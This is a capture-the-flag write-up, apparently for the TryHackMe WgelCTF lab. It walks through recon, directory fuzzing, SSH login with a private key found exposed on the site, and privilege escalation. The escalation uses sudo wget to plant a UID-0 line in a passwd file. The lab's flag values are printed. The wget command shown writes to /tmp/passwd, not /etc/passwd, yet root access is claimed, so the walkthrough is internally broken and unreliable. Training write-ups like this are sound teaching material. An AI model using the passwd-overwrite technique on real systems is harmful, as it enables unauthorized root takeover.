








## TL;DR

We can find the username `jessie` and private key while enumerating the website.

Then, we login to ssh and privilege escalate to `root` using `sudo` permissions on `/usr/bin/wget`

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



We have port `22` with ssh, and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQ
yHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71
EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUP
ajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
let's add `wgelctf` to out `/etc/hosts`.

### Find username and private key on enumeration

I started with `ffuf`, and find `sitemap`:
```bash
┌──(agonen㉿kali)-[~/thm/WgelCTF]
└─$ ffuf -u 'http://wgelctf/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://wgelctf/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

index.html              [Status: 200, Size: 11374, Words: 3512, Lines: 379, Duration: 347ms]
sitemap                 [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 352ms]
```



and that's what we find when going to `http://wgelctf/sitemap`.


In addition, inside the source code of the root page, we can find this comment:
```bash
 <!-- Jessie don't forget to udate the webiste -->
```
So, we got the username `jessie` :D



Next, we fuzz the folder `sitemap`:
```bash
ffuf -u 'http://wgelctf/sitemap/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403
```



and, we found private key at `http://wgelctf/sitemap/.ssh/id_rsa`. 



and now we can login to `jessie` using the private key we found.
```bash
ssh jessie@wgelctf -i id_rsa
```



and we can grab the user flag:
```bash
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ cat user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
```

### Privilege Escalation to Root using sudo on wget

When we check `sudo -l`, we can see we have `/usr/bin/wget`.

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

It means we can read file, and then output it wherever we want.

Let's override the file `/etc/passwd`, and add our user as root.

So, first, we can generate the password for the new user `elicopter`:
```bash
┌──(agonen㉿kali)-[~/thm/WgelCTF]
└─$ openssl passwd elicopter
$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//
```

Now, let's 

This is regular root line:
```bash
root:x:0:0:root:/root:/bin/bash
```
So, our new line will be:
```bash
elicopter:$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//:0:0:elicopter:/root:/bin/bash
```

So, this will be the commands:
```bash
jessie@CorpOne:~$ cd /tmp
jessie@CorpOne:/tmp$ cp /etc/passwd passwd_mine
jessie@CorpOne:/tmp$ echo -e 'elicopter:$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//:0:0:elicopter:/root:/bin/bash' >> passwd_mine
```

and then, setting up the http server, and triggering the exploit.
```bash
python3 -m http.server 8081 &
sudo /usr/bin/wget http://127.0.0.1:8081/passwd_mine -O /tmp/passwd
```

We can see it worked!
All commands combined:
```bash
cd /tmp
cp /etc/passwd passwd_mine
echo -e 'elicopter:$1$YdZ9Ip7Z$F0MR/NO9OfQUqQXLATeo//:0:0:elicopter:/root:/bin/bash' >> passwd_mine

python3 -m http.server 8081 &
sudo /usr/bin/wget http://127.0.0.1:8081/passwd_mine -O /tmp/passwd

su elicopter # Passowrd is: elicopter
```



Now, let's grab the root flag, notice we change to `elicotper` with the password `elicopter`:
```bash
jessie@CorpOne:/tmp$ su elicopter
Password: 
root@CorpOne:/tmp# cd /root
root@CorpOne:~# ls
root_flag.txt
root@CorpOne:~# cat root_flag.txt 
b1b968b37519ad1daa6408188649263d
```


